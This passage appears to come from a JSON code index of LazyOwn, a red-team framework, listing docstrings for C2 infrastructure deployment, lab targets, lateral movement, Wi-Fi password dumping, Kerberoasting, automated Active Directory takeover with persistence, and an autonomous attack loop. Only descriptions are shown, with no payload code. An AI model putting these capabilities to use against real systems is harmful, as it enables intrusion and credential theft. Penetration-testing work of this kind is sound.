this operator.\n\nReads ``sessions/engagement_state.json`` (curiosity + VRI engine) and\nprints the operator's ELO, karma name (Noob → Godlike), commands\ndiscovered, phases entered, and steps remaining until the next VRI\nreward.  Useful to gauge progress on the curiosity-driven adoption\nloop without re-running another command.\n\nUsage:\n    ``karma``", "kind": "method", "line": 369, "name": "do_karma", "signature": "def do_karma(self, line)"}, {"doc": "Search across all previous command outputs and session logs.\n\nSearches in: sessions/_cli_transcript.jsonl (full outputs),\nsessions/LazyOwn_session_report.csv (command list), and\nsessions/logs/*.txt (tool output files). Useful for recalling\ncredentials, open ports, or any string from earlier in the session.\n\nUsage:\n    ``tgrep <pattern>``\n    ``tgrep password``\n    ``tgrep '10\\.10\\.11'``\n    ``tgrep Administrator``", "kind": "method", "line": 404, "name": "do_tgrep", "signature": "def do_tgrep(self, line)"}, {"doc": "Get or set the current kill-chain phase.\n\nWhen called without arguments, shows the current phase and the\nfull kill-chain progress bar. When called with a phase name,\nupdates sessions/world_model.json — the dashboard reflects the\nchange on its next refresh (within 5 s).\n\nValid phases: recon scan enum exploit privesc lateral exfil report\n\nUsage:\n    ``phase``               — show current phase and progress bar\n    ``phase exploit``       — move to exploit phase\n    ``phase privesc``       — advance to privilege escalation\n\nThe phase drives the inline hints and the kill-chain panel in the\noperator dashboard. Advancing a phase also marks the previous one\nas completed in the dashboard progress bar.", "kind": "method", "line": 421, "name": "do_phase", "signature": "def do_phase(self, line)"}, {"doc": "Show the unified kill-chain progress and control auto-refresh.\n\nDisplays every kill-chain phase with its status derived from the\nWorldModel (the single source of truth), plus the operator-set\noverride when it differs.\n\nA compact progress bar can also be surfaced automatically after\ncommands. Use ``killchain auto on|off|N`` to enable it every N\ncommands, or set the phase-change trigger that fires whenever the\nactive phase advances.\n\nUsage:\n    ``killchain``            — show unified kill-chain progress bar\n    ``killchain auto on``    — show bar periodically after commands\n    ``killchain auto off``   — disable auto-refresh\n    ``killchain auto 5``     — show bar every 5 commands", "kind": "method", "line": 455, "name": "do_killchain", "signature": "def do_killchain(self, line)"}, {"kind": "function", "line": 67, "name": "_save", "signature": "def _save(key, value)"}]}, {"doc": "Disposable infrastructure commands -- redirectors, C2, cloud IaC.  Provides ``infra redirector``, ``infra deploy`` and ``infra destroy`` workflows on top of ``deploy/`` assets. Local Docker is the default; cloud providers (DigitalOcean/AWS) run through Terraform when available.  Discovery is automatic: ``cli.registry.register_command_sets`` finds this ``CommandSet`` because it subclasses ``LazyOwnCommandSet``.", "id": "cli/commands/infra.py", "kind": "module", "label": "infra.py", "language": "py", "sha256": "79b88b938c283a07", "symbol_count": 18, "symbols": [{"doc": "Run a command capturing output without shell injection.\n\nArgs:\n    argv: Argument vector, never a shell string.\n    timeout: Seconds before aborting.\n\nReturns:\n    CompletedProcess with captured text output.", "kind": "function", "line": 52, "name": "_run_capture", "signature": "def _run_capture(argv, timeout)"}, {"doc": "Check whether a binary exists on PATH.\n\nArgs:\n    name: Binary name to locate.\n\nReturns:\n    True when found on PATH.", "kind": "function", "line": 65, "name": "_binary_present", "signature": "def _binary_present(name)"}, {"doc": "Extract unique trycloudflare URLs from cloudflared logs.\n\nArgs:\n    log_text: Raw log content.\n\nReturns:\n    Deduplicated URL list preserving order.", "kind": "function", "line": 77, "name": "_parse_tunnel_urls", "signature": "def _parse_tunnel_urls(log_text)"}, {"doc": "Manage disposable C2 infrastructure and redirectors.", "kind": "class", "line": 93, "name": "InfraCommandSet", "signature": "class InfraCommandSet(LazyOwnCommandSet)"}, {"doc": "Resolve the C2 port from params with a safe default.\n\nReturns:\n    C2 port number.", "kind": "method", "line": 99, "name": "_c2_port", "signature": "def _c2_port(self)"}, {"doc": "Load redirector state file.\n\nReturns:\n    State dict, empty when missing or corrupt.", "kind": "method", "line": 110, "name": "_load_state", "signature": "def _load_state(self)"}, {"doc": "Persist redirector state file.\n\nArgs:\n    state: State dict to write.", "kind": "method", "line": 123, "name": "_save_state", "signature": "def _save_state(self, state)"}, {"doc": "Manage disposable C2 infrastructure.\n\nUsage:\n    infra redirector spawn [--count N] [--port PORT]\n    infra redirector list\n    infra redirector kill --all\n    infra deploy --provider local|docker|digitalocean|aws [--region nyc1]\n    infra destroy --provider local|docker|digitalocean|aws\n    infra status\n\nExamples:\n    infra redirector spawn --count 2\n    infra deploy --provider local\n    infra deploy --provider digitalocean --region nyc1\n    infra destroy --provider local", "kind": "method", "line": 136, "name": "do_infra", "signature": "def do_infra(self, line)"}, {"doc": "Dispatch redirector subcommands.\n\nArgs:\n    args: Tokens after ``redirector``.", "kind": "method", "line": 170, "name": "_infra_redirector", "signature": "def _infra_redirector(self, args)"}, {"doc": "Spawn disposable cloudflared redirectors via Docker Compose.\n\nArgs:\n    count: Number of redirector replicas.\n    port: Local C2 port to expose through the tunnel.", "kind": "method", "line": 202, "name": "_redirector_spawn", "signature": "def _redirector_spawn(self, count, port)"}, {"doc": "List known redirector URLs with age, pruning stale entries.", "kind": "method", "line": 262, "name": "_redirector_list", "signature": "def _redirector_list(self)"}, {"doc": "Tear down redirector containers and clear state.\n\nArgs:\n    args: Expected to contain ``--all``.", "kind": "method", "line": 291, "name": "_redirector_kill", "signature": "def _redirector_kill(self, args)"}, {"doc": "Deploy ephemeral C2 infrastructure locally or in the cloud.\n\nArgs:\n    args: CLI tokens including ``--provider`` and ``--region``.", "kind": "method", "line": 308, "name": "_infra_deploy", "signature": "def _infra_deploy(self, args)"}, {"doc": "Interactively ask for local vs cloud deployment.\n\nReturns:\n    Provider string, defaulting to local on non-interactive stdin.", "kind": "method", "line": 326, "name": "_ask_provider", "signature": "def _ask_provider(self)"}, {"doc": "Bring up the local C2 stack with automatic TLS via Caddy.", "kind": "method", "line": 344, "name": "_deploy_local", "signature": "def _deploy_local(self)"}, {"doc": "Deploy cloud infrastructure through Terraform.\n\nArgs:\n    provider: Cloud provider id (digitalocean/aws).\n    region: Region slug, validated for DigitalOcean.", "kind": "method", "line": 364, "name": "_deploy_cloud", "signature": "def _deploy_cloud(self, provider, region)"}, {"doc": "Destroy ephemeral infrastructure for a provider.\n\nArgs:\n    args: CLI tokens including ``--provider``.", "kind": "method", "line": 411, "name": "_infra_destroy", "signature": "def _infra_destroy(self, args)"}, {"doc": "Show local containers, terraform state, and redirector URLs.", "kind": "method", "line": 447, "name": "_infra_status", "signature": "def _infra_status(self)"}]}, {"doc": "Lab environment commands -- spin up vulnerable practice targets.  Provides on-demand CTF-style lab scenarios powered by Docker containers. Operators can practice techniques against realistic targets without risking production systems.", "id": "cli/commands/lab.py", "kind": "module", "label": "lab.py", "language": "py", "sha256": "21dc8c5e5e7b4e48", "symbol_count": 21, "symbols": [{"doc": "Manage local CTF lab environments via Docker.", "kind": "class", "line": 81, "name": "LabCommandSet", "signature": "class LabCommandSet(LazyOwnCommandSet)"}, {"doc": "Check if Docker is installed and the daemon is reachable.", "kind": "method", "line": 87, "name": "_docker_available", "signature": "def _docker_available(self)"}, {"doc": "Return list of running lab container names.", "kind": "method", "line": 100, "name": "_running_containers", "signature": "def _running_containers(self)"}, {"doc": "Return the container name for a given scenario.", "kind": "method", "line": 114, "name": "_container_name", "signature": "def _container_name(self, scenario)"}, {"doc": "Manage local CTF practice labs.\n\nUsage:\n    lab list                     — show available scenarios\n    lab start <scenario>         — spin up a vulnerable target\n    lab stop <scenario>          — tear down a running scenario\n    lab status                   — show running labs\n    lab range start <profile>    — start a cyber range (ad-mini)\n    lab range stop <profile>     — stop a cyber range\n    lab range status             — range container status\n    lab range verify <profile>   — fire a real exploit to prove it works\n\nExamples:\n    lab start metasploitable\n    lab start wordpress\n    lab list\n    lab status\n    lab stop metasploitable\n    lab range start ad-mini\n\nRequires Docker. Lab containers are isolated and safe for practice.", "kind": "method", "line": 119, "name": "do_lab", "signature": "def do_lab(self, line)"}, {"doc": "Display available lab scenarios.", "kind": "method", "line": 171, "name": "_lab_list", "signature": "def _lab_list(self)"}, {"doc": "Spin up a lab scenario container.", "kind": "method", "line": 185, "name": "_lab_start", "signature": "def _lab_start(self, scenario)"}, {"doc": "Stop a running lab scenario.", "kind": "method", "line": 234, "name": "_lab_stop", "signature": "def _lab_stop(self, scenario)"}, {"doc": "Dispatch ``lab range`` subcommands.\n\nArgs:\n    args: Tokens after ``range`` (start|stop|status + profile).", "kind": "method", "line": 252, "name": "_range_dispatch", "signature": "def _range_dispatch(self, args)"}, {"doc": "Display available cyber range profiles.", "kind": "method", "line": 284, "name": "_range_list", "signature": "def _range_list(self)"}, {"doc": "Resolve the compose file for a range profile.\n\nArgs:\n    profile: Range profile name.\n\nReturns:\n    Compose file path, or None when unknown.", "kind": "method", "line": 293, "name": "_range_compose", "signature": "def _range_compose(self, profile)"}, {"doc": "Start a cyber range profile via Docker Compose.\n\nArgs:\n    profile: Range profile name.", "kind": "method", "line": 312, "name": "_range_start", "signature": "def _range_start(self, profile)"}, {"doc": "Read a container's lifecycle state.\n\nArgs:\n    container: Container name to inspect.\n\nReturns:\n    State string (``running``, ``restarting``, ...) or empty.", "kind": "method", "line": 351, "name": "_range_container_state", "signature": "def _range_container_state(self, container)"}, {"doc": "Wait for range containers to run and probe host-side ports.\n\nPolls the DC and workstation states, then TCP-probes the published\nSSH and LDAP ports from this host so the operator knows the range\nis reachable before practicing.\n\nArgs:\n    compose: Compose file of the range profile (unused for probing,\n        kept for future per-profile port tables).\n    timeout: Maximum seconds to wait for ``running`` state.", "kind": "method", "line": 374, "name": "_range_wait_healthy", "signature": "def _range_wait_healthy(self, compose, timeout)"}, {"doc": "Prove the range is exploitable by firing a real exploit.\n\nFor ``ad-mini`` this triggers the vsftpd 2.3.4 backdoor on ws01\nfrom this host and checks the shell answers ``uid=0``. This is a\nproof-of-exploit, not a banner check.\n\nArgs:\n    profile: Range profile name.", "kind": "method", "line": 406, "name": "_range_verify", "signature": "def _range_verify(self, profile)"}, {"doc": "Probe one TCP port from this host.\n\nArgs:\n    host: Hostname or IP to probe.\n    port: TCP port to probe.\n    timeout: Connection timeout in seconds.\n\nReturns:\n    True when the connection succeeds.", "kind": "method", "line": 442, "name": "_tcp_reachable", "signature": "def _tcp_reachable(host, port, timeout)"}, {"doc": "Generate the DC admin secret file when missing.\n\nThe Samba DC entrypoint reads the Administrator password from a\nDocker secret file. The secret is generated per deployment with a\nrandom value and never committed; ``secrets/`` is gitignored.\n\nArgs:\n    profile_dir: Range profile directory holding the compose file.\n\nReturns:\n    The Administrator password string, or empty on failure.", "kind": "method", "line": 459, "name": "_ensure_range_secret", "signature": "def _ensure_range_secret(self, profile_dir)"}, {"doc": "Resolve a range container's IP on its compose network.\n\nArgs:\n    container: Container name to inspect.\n\nReturns:\n    IPv4 address string, or empty when unavailable.", "kind": "method", "line": 489, "name": "_range_container_ip", "signature": "def _range_container_ip(self, container)"}, {"doc": "Stop a cyber range profile.\n\nArgs:\n    profile: Range profile name.", "kind": "method", "line": 518, "name": "_range_stop", "signature": "def _range_stop(self, profile)"}, {"doc": "Show range container status.", "kind": "method", "line": 536, "name": "_range_status", "signature": "def _range_status(self)"}, {"doc": "Show currently running lab containers.", "kind": "method", "line": 548, "name": "_lab_status", "signature": "def _lab_status(self)"}]}, {"doc": "Lateral Movement command set (pending).  Phase 08 — commands for lateral movement: tunneling, pivoting, remote execution, and protocol-specific lateral movement tools.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.", "id": "cli/commands/lateral.py", "kind": "module", "label": "lateral.py", "language": "py", "sha256": "c0b939a63cca347a", "symbol_count": 9, "symbols": [{"doc": "Lateral Movement phase commands (pending).", "kind": "class", "line": 24, "name": "LateralMovementCommandSet", "signature": "class LateralMovementCommandSet(LazyOwnCommandSet)"}, {"doc": "Run socat for port forwarding.", "kind": "method", "line": 31, "name": "do_socat", "signature": "def do_socat(self, line)"}, {"doc": "Run chisel for quick tunneling.", "kind": "method", "line": 43, "name": "do_chisel", "signature": "def do_chisel(self, line)"}, {"doc": "Configure proxychains for the current session.", "kind": "method", "line": 59, "name": "do_set_proxychains", "signature": "def do_set_proxychains(self, line)"}, {"doc": "Start ngrok tunnel.", "kind": "method", "line": 72, "name": "do_ngrok", "signature": "def do_ngrok(self, line)"}, {"doc": "Run Ligolo-ng for advanced pivoting.", "kind": "method", "line": 79, "name": "do_ligolo", "signature": "def do_ligolo(self, line)"}, {"doc": "Netcat listener or connect.", "kind": "method", "line": 91, "name": "do_nc", "signature": "def do_nc(self, line)"}, {"doc": "Execute commands via WMI.", "kind": "method", "line": 106, "name": "do_wmiexec", "signature": "def do_wmiexec(self, line)"}, {"doc": "SSH to a remote host (custom port).", "kind": "method", "line": 114, "name": "do_ssh", "signature": "def do_ssh(self, line)"}]}, {"doc": "lateral commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/lateral_migrated.py", "kind": "module", "label": "lateral_migrated.py", "language": "py", "sha256": "623b73a76e866eef", "symbol_count": 23, "symbols": [{"kind": "class", "line": 24, "name": "LateralMigratedCommandSet", "signature": "class LateralMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Connect to a VPN by selecting from available .ovpn files.\n\nThis function performs the following actions:\n1. Lists all `.ovpn` files in the current directory, sorted alphabetically.\n2. Handles cases with and without arguments:\n- Without arguments: Lists available `.ovpn` files and prompts the user to select one by number.\n- With a single argument: Treats the argument as a number and attempts to connect to the corresponding `.ovpn` file.\n3. Connects to the selected `.ovpn` file using `openvpn` and displays appropriate messages.\n4. Handles invalid input with error messages.\n\nUsage:\n    vpn           # List available .ovpn files and select one to connect to\n    vpn <number>  # Connect directly to the .ovpn file corresponding to the number\n\n:param line: The number of the .ovpn file to connect to, or an empty string to list available files.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually use this function:\n1. Run the function with no arguments to list available `.ovpn` files.\n2. Choose a file by entering the corresponding number.\n3. Alternatively, run the function with a number argument to connect directly to the specified `.ovpn` file.\n\nNote: Ensure you have the necessary permissions and the `openvpn` command is available on your system.", "kind": "method", "line": 29, "name": "do_vpn", "signature": "def do_vpn(self, line)"}, {"doc": "Create an SSH private key file and connect to a remote host using SSH.\n\nThis function performs the following actions:\n1. Checks if the provided remote host (`self.params['rhost']`) is valid.\n2. Verifies that a username is provided as an argument.\n3. Creates an SSH private key file in the `sessions` directory with a name based on the provided username.\n4. Opens the created file in the `nano` text editor for the user to paste the private key.\n5. Sets the file permissions to read-only for the owner (600).\n6. Optionally formats the key if the user chooses to.\n7. Connects to the remote host via SSH using the created private key.\n8. Displays a warning message when the SSH connection is closed.\n\nUsage:\n    id_rsa <username>\n\n:param line: The username for SSH connection and private key file naming.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually use this function:\n1. Run the function with the username argument, e.g., `id_rsa myuser`.\n2. Paste the private key into the `nano` editor when prompted.\n3. Save and exit the editor.\n4. The SSH connection will be established using the private key.\n\nNote: Ensure you have the necessary permissions to create files and connect via SSH.", "kind": "method", "line": 101, "name": "do_id_rsa", "signature": "def do_id_rsa(self, line)"}, {"doc": "Starts the SSH service and displays its status.\n\n1. Executes the command to start the SSH service:\n- Runs `sudo systemctl start ssh` to initiate the SSH service.\n\n2. Displays the status of the SSH service:\n- Runs `sudo systemctl status ssh` to show the current status of the SSH service.\n\n:param line: Not used in this function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Execute `sudo systemctl start ssh` to start the SSH service.\n- Run `sudo systemctl status ssh` to check the status of the SSH service.\n\nNote: Ensure that you have the necessary permissions to start services using `sudo` and that the SSH service is installed on your system.", "kind": "method", "line": 172, "name": "do_sshd", "signature": "def do_sshd(self, line)"}, {"doc": "This function generates a PowerShell script that retrieves saved Wi-Fi passwords on a Windows system.\nThe script gathers the Wi-Fi profiles, extracts their passwords, and saves the information in a text file\nnamed 'wifi_passwords.txt' in the directory where the script is executed. The generated PowerShell command\nis copied to the clipboard for easy execution.\n\nParameters:\nline (str): This parameter is not used within the function but is required for the command interface.\n\nThe function does not return any value.", "kind": "method", "line": 199, "name": "do_wifipass", "signature": "def do_wifipass(self, line)"}, {"doc": "Execute the bloodyAD.py command for a specific user or all users listed in the users.txt file.\n\nThis function interacts with BloodyAD to add users to a group in an Active Directory environment.\nIt allows the user to select a specific user from the list or execute the command for all users.\n(use download_external option 48 to clone the repo)\nArgs:\n    line (str): The organizational unit (OU) in the format 'CN=EXAMPLE,DC=DOMAIN,DC=EXT'.\n                If not provided, the user is prompted to enter it.\n\nReturns:\n    None\n\nWorkflow:\n    1. Extract parameters and set up paths.\n    2. Check the reachability of the remote host.\n    3. Prompt the user for a CN if not provided.\n    4. Check if the users.txt file exists and read the list of users.\n    5. Display the list of users and prompt the user to select a specific user.\n    6. Execute the bloodyAD.py command for the selected user or all users.\n\nRaises:\n    FileNotFoundError: If the users.txt file does not exist.\n\nExample:\n    To execute the command for a specific user:\n    >>> do_bloodyAD(\"\")\n\n    To execute the command for all users:\n    >>> do_bloodyAD(\"\")", "kind": "method", "line": 229, "name": "do_bloodyAD", "signature": "def do_bloodyAD(self, line)"}, {"doc": "Requests a Ticket Granting Ticket (TGT) using the Impacket tool with provided credentials.\n\nThis function performs the following actions:\n1. Checks if the provided target host (`self.params['rhost']`) is valid.\n2. Reads credentials from the `credentials.txt` file.\n3. Uses each credential (username and password) to request a TGT with the Impacket tool.\n4. Constructs and executes the Impacket command to obtain a TGT for each set of credentials.\n\nParameters:\nline (str): A command line argument, not used in this implementation.\n\nReturns:\nNone", "kind": "method", "line": 321, "name": "do_getTGT", "signature": "def do_getTGT(self, line)"}, {"doc": "Execute the tor.sh script with the specified port or default to port 80 if no port is provided.\n\nThis function constructs a command to run the `tor.sh` script with superuser privileges,\nit defaults to port 80.\nThe command is then printed and executed.\n\nParameters:\nline (str): Defaults to \"80\"\n\nReturns:\nNone\n\nExample:\n>>> do_tord(self, \"\")\nsudo bash sessions/tor.sh\n\n>>> do_tord(self, \"\")\nsudo bash sessions/tor.sh\n\nNote:\nEnsure that the `tor.sh` script exists in the `sessions` directory and that you have the\nnecessary permissions to execute scripts with `sudo`.", "kind": "method", "line": 369, "name": "do_tord", "signature": "def do_tord(self, line)"}, {"doc": "Execute the Shadowsocks tool to create a secure tunnel for network traffic.\n\nThis function allows the user to specify various parameters for configuring and running the Shadowsocks client\nor server. It handles user input for server address, port, password, encryption method, and other options,\nconstructs the command, and executes it.\n\n:param line: Not used in this implementation.\n:returns: None", "kind": "method", "line": 404, "name": "do_shadowsocks", "signature": "def do_shadowsocks(self, line)"}, {"doc": "Runs `nc` with rlwrap  the specified port for listening.\n\nThis function starts a `nc` listener with rlwrap  on the specified local port. It can use a port defined in the `lport` parameter or a port provided as an argument.\n\nUsage:\n    rnc <port>\n\n:param line: The port number to use for the `nc` listener. If not provided, it defaults to the `lport` parameter.\n:type line: str\n:returns: None\n\nManual execution:\n1. Ensure that `nc` is installed and accessible from your command line.\n2. The port number can either be provided as an argument or be set in the `lport` parameter of the function.\n3. Run the function to start `nc` on the specified port.\n\nIf no port is provided as an argument, the function will use the port specified in the `lport` parameter. If a port is provided, it overrides the `lport` value.\n\nAfter starting the listener, the function prints a message indicating that `nc` is running on the specified port and another message when the session is closed.\n\nDependencies:\n- `nc`: A tool used for creating reverse shells or bind shells.", "kind": "method", "line": 477, "name": "do_rnc", "signature": "def do_rnc(self, line)"}, {"doc": "Command gospherus: Clones and uses the Gopherus tool to generate gopher payloads for various services.\nUse the command template_helper_serializer to generate the serialization payload. more info help template_helper_serializer\n\nThis function performs the following tasks:\n0. Install Python2 (Old protocol, old t00l, old python)\n1. Checks if Gopherus is already cloned in the external/.exploit directory.\n2. Clones the Gopherus repository if not already present.\n3. Enumerates the possible exploits and prompts the user to choose one.\n4. Runs the selected exploit using Gopherus.\n\nArgs:\n    line (str): Optional argument for specifying the chosen exploit.\n\nReturns:\n    None\n\nExample:\n    gospherus 2", "kind": "method", "line": 543, "name": "do_gospherus", "signature": "def do_gospherus(self, line)"}, {"doc": "Attempts to connect to an MSSQL server using the mssqlclient.py tool with Windows authentication.\n\nThe function retrieves the necessary parameters (remote host and self.params['domain']) from the\ninstance's parameter dictionary. If a credentials file exists in the 'sessions_dir',\nit reads the file and uses the username/password combinations found there. If the file\ndoes not exist, it prompts the user for a username and password.\n\nThe password is copied to the clipboard for convenience. A command is constructed using\nthe mssqlclient.py tool, and it is then executed to initiate the connection to the MSSQL\nserver.\n\nArgs:\n    line (str): The password input from the command line or an empty string if not provided.\n\nReturns:\n    None", "kind": "method", "line": 613, "name": "do_mssqlcli", "signature": "def do_mssqlcli(self, line)"}, {"doc": "Command penelope: Installs and runs Penelope for handling reverse and bind shells.\n\nThis function performs the following tasks:\n1. Checks if Penelope is already cloned in the external/.exploit directory.\n2. Clones the Penelope repository if not present.\n3. Prompts the user for various options to configure and run Penelope.\n4. Executes Penelope with the specified options, supporting multiple features like reverse shell, bind shell, file server, etc.\n\nArgs:\n    line (str): Optional argument for specifying the port and other Penelope options.\n\nReturns:\n    None\n\nExample:\n    penelope 5555 -i eth0", "kind": "method", "line": 666, "name": "do_penelope", "signature": "def do_penelope(self, line)"}, {"doc": "Command stormbreaker: Automates the installation and usage of Storm-Breaker for performing various network attacks.\n\nThis function performs the following tasks:\n1. Clones and installs Storm-Breaker if not already installed.\n2. Prompts the user for optional parameters and target configuration.\n3. Executes Storm-Breaker to perform various attacks using the target configuration.\n\nArgs:\n    line (str): Optional argument for specifying additional Storm-Breaker options.\n\nReturns:\n    None\n\nExample:\n    stormbreaker --verbose", "kind": "method", "line": 777, "name": "do_stormbreaker", "signature": "def do_stormbreaker(self, line)"}, {"doc": "Executes the reGeorg tool for HTTP(s) tunneling through a SOCKS proxy.\n\nThis function performs the following actions:\n1. Checks if the reGeorg tool is installed; if not, it clones the repository and sets up the environment.\n2. Validates the command line arguments, specifically the port and URL required for the SOCKS proxy.\n3. Constructs the command to run the reGeorg SOCKS proxy with the specified options and executes it.\n4. Provides usage instructions in case of incorrect command line argument formats.\n\nParameters:\nline (str): Command argument specifying the parameters for the reGeorg execution.\n            - The expected format is: \"<port> <url>\", where <port> is the listening port and <url> is the URL\n            containing the tunnel script.\n\nReturns:\nNone", "kind": "method", "line": 823, "name": "do_regeorg", "signature": "def do_regeorg(self, line)"}, {"doc": "Executes the targetedKerberoast tool for extracting Kerberos service tickets.\n\nThis function performs the following actions:\n1. Verifies the presence of the targetedKerberoast tool; if not installed, it clones the repository and installs dependencies.\n2. Prompts for parameters such as the self.params['domain'], username, and other configurations required by targetedKerberoast.\n3. Executes the targetedKerberoast tool with specified options for obtaining \"kerberoastable\" hashes.\n\nParameters:\nline (str): Command arguments specifying the user, self.params['domain'], and options.\n            Expected format:\n                - self.params['domain'] user hash or password [optional parameters]\n\nReturns:\nNone", "kind": "method", "line": 871, "name": "do_targetedKerberoas", "signature": "def do_targetedKerberoas(self, line)"}, {"doc": "Executes the Impacket dcomexec tool to run commands on a remote system using DCOM.\n\nThis function performs the following actions:\n1. Validates the target host (self.params['rhost']) and self.params['domain'] parameters.\n2. If the line argument is \"pass\", it searches for credential files with the pattern `credentials*.txt`,\nallows the user to select credentials, and constructs the dcomexec command using them.\n3. If the line argument is \"hash\", it searches for a hash file, prompts the user for a username, and\nconstructs the dcomexec command using the hash.\n4. If line does not match \"pass\" or \"hash\", it displays an error message with usage instructions.\n\nParameters:\nline (str): A command argument to determine the authentication mode.\n            If \"pass\", the function searches for credential files and authenticates using the selected file.\n            If \"hash\", it uses a hash file for authentication.\n            If neither, it prints an error message with usage instructions.\n\nReturns:\nNone", "kind": "method", "line": 931, "name": "do_dcomexec", "signature": "def do_dcomexec(self, line)"}, {"doc": "upload command in the client using the C2 to upload a file\n\nParameters:\ncommand (str): client_id [optional], Command to exec.\n\nReturns:\nNone", "kind": "method", "line": 1002, "name": "do_upload_c2", "signature": "def do_upload_c2(self, line)"}, {"doc": "Executes wmiexec-pro with various options for WMI operations.\n\nThis function handles the installation of wmiexec-pro and its dependencies,\nand allows the user to execute various WMI operations with minimal input.\nIt reads credentials from a specified file and constructs the necessary\ncommands to interact with the target system.\n\n:param line: Command line input from the user. This input is used to\n            determine the module and action to be executed.\n:returns: None\n\nThe function performs the following steps:\n1. Checks if wmiexec-pro and its dependencies are installed. If not, it\ninstalls them in specified directories.\n2. Reads credentials from a file.\n3. Constructs and executes the wmiexec-pro command based on user input.\n4. Enumerates available modules and actions for each module, allowing the\nuser to select them interactively.\n5. Enumerates available options for each action, allowing the user to select\nthem interactively.\n\nExample usage:\n```\ndo_wmiexecpro(\"enum -run\")\n```\n\nThis will execute the enumeration module with the `-run` action.\n\nIf no specific command is provided, the function will prompt the user to\nselect a module and action interactively.", "kind": "method", "line": 1031, "name": "do_wmiexecpro", "signature": "def do_wmiexecpro(self, line)"}, {"doc": "Perform lateral movement by downloading and installing LazyOwn on a remote Linux machine.\n\nThis function automates the process of setting up an APT and PIP proxy, downloading the LazyOwn package,\ntransferring it to a remote machine, and installing it. The function ensures that all necessary directories\nare created and that the package is correctly installed on the remote machine.\n\nParameters:\n    line (str): The command line input, which is not used in this function.\n\nReturns:\n    None", "kind": "method", "line": 1247, "name": "do_lateral_mov_lin", "signature": "def do_lateral_mov_lin(self, line)"}, {"doc": "Add a client to execute c2 commands\n\nParameters:\n    line (str): The command line input, which is not used in this function.\n\nReturns:\n    None", "kind": "method", "line": 1302, "name": "do_addcli", "signature": "def do_addcli(self, line)"}, {"doc": "Execute a fully automated Active Directory domain takeover.\n\nRuns the complete AD kill-chain: domain enumeration, user discovery,\ncredential extraction (AS-REP roasting, Kerberoasting), lateral movement\nvia PsExec/WMIExec/Pass-the-Hash, DCSync privilege escalation, and\npersistence mechanisms.\n\nUsage:\n    dominion <domain> <dc_ip> [username] [password]\n    dominion corp.local 10.10.11.5\n    dominion corp.local 10.10.11.5 admin Password123!\n    dominion corp.local 10.10.11.5 admin :ntlm_hash\n\nAll credentials, sessions, and findings are persisted under\n``sessions/``. Use ``creds`` to view captured credentials afterwards.\n\n:param line: Domain, DC IP, optional credentials.\n:type line: str\n:return: None", "kind": "method", "line": 1317, "name": "do_dominion", "signature": "def do_dominion(self, line)"}, {"kind": "function", "line": 1070, "name": "install_wmiexecpro", "signature": "def install_wmiexecpro()"}]}, {"doc": "Lazy queue and misc command set.  Engine-backed operator surface with ``lazy_`` names. Every command here reads or writes the single ``modules.lazy_engine`` store, so queue, findings, verdicts and guard reviews always match what the autonomous loop (``lazy_loop`` / ``auto_loop``) sees. The per-task engine surface (status, broadcast, trace, hint, steer, kill, retest) lives in ``cli.commands.lazyops``; no name is duplicated across both sets.", "id": "cli/commands/lazyloop.py", "kind": "module", "label": "lazyloop.py", "language": "py", "sha256": "71b11dfb7af54bf1", "symbol_count": 12, "symbols": [{"doc": "Return a fresh engine handle over the persisted lazy store.", "kind": "function", "line": 22, "name": "_engine", "signature": "def _engine()"}, {"doc": "Lazy queue controls backed by the loop engine.", "kind": "class", "line": 29, "name": "LazyQueueCommandSet", "signature": "class LazyQueueCommandSet(LazyOwnCommandSet)"}, {"doc": "Run bidirectional LAZY sync into world model and objectives.\n\nUsage:\n    lazy_sync", "kind": "method", "line": 36, "name": "do_lazy_sync", "signature": "def do_lazy_sync(self, line)"}, {"doc": "List engine intents for a task, optionally filtered by state.\n\nUsage:\n    lazy_intents <task_id> [state]", "kind": "method", "line": 51, "name": "do_lazy_intents", "signature": "def do_lazy_intents(self, line)"}, {"doc": "Delete an engine intent; soft keeps outputs, hard cascades.\n\nUsage:\n    lazy_delete <task_id> <intent_id> --reason <text> [--hard] [--yes]", "kind": "method", "line": 71, "name": "do_lazy_delete", "signature": "def do_lazy_delete(self, line)"}, {"doc": "List engine findings for a task, optionally filtered by status.\n\nUsage:\n    lazy_findings <task_id> [status]", "kind": "method", "line": 110, "name": "do_lazy_findings", "signature": "def do_lazy_findings(self, line)"}, {"doc": "Record a manual retest verdict on an engine finding.\n\nUsage:\n    lazy_verdict <task_id> <finding_id> <reproduced|fixed|inconclusive> [--note <text>]", "kind": "method", "line": 132, "name": "do_lazy_verdict", "signature": "def do_lazy_verdict(self, line)"}, {"doc": "Search @ mention candidates with scroll pagination.\n\nUsage:\n    lazy_mention [kind] [query] [--cursor C]", "kind": "method", "line": 155, "name": "do_lazy_mention", "signature": "def do_lazy_mention(self, line)"}, {"doc": "List engine guard reviews filtered by decision and source.\n\nUsage:\n    lazy_approve <task_id> [ALLOW|ASK|DENY] [source]", "kind": "method", "line": 190, "name": "do_lazy_approve", "signature": "def do_lazy_approve(self, line)"}, {"doc": "Cross-task fleet: list | graph <task> | findings <task> | traces <task> [query] | node <task> <id> | pause <task> | resume <task> | report <task> <finding> <text...>\n\nUsage:\n    lazy_fleet list\n    lazy_fleet graph t0001\n    lazy_fleet findings t0001\n    lazy_fleet traces t0001 ssh\n    lazy_fleet node t0001 12\n    lazy_fleet pause t0001\n    lazy_fleet report t0001 7 ## Summary ...", "kind": "method", "line": 212, "name": "do_lazy_fleet", "signature": "def do_lazy_fleet(self, line)"}, {"doc": "Admin console for the loop (Textual TUI).\n\nTabs: Now (what the orchestrator is executing right now, live\nactivity tail and per-worker current command), Config (payload\nknobs the runner reads), Models (LLM failover chain add/remove),\nGuard (intercept rules add/remove). Keys: r refresh, s save\nconfig, a add, d delete, q quit.\n\nUsage:\n    lazy_orchestrator [task_id]", "kind": "method", "line": 277, "name": "do_lazy_orchestrator", "signature": "def do_lazy_orchestrator(self, line)"}, {"doc": "Attach the live worker monitor to a task (or the newest task).\n\nSplit panes per worker plus audit tabs (activity, guard,\ntraffic, findings) and operator keys: q quit, p/r pause/resume,\na/d approve/deny first pending intercept, h hint, s steer,\nk kill. Works from a second terminal while 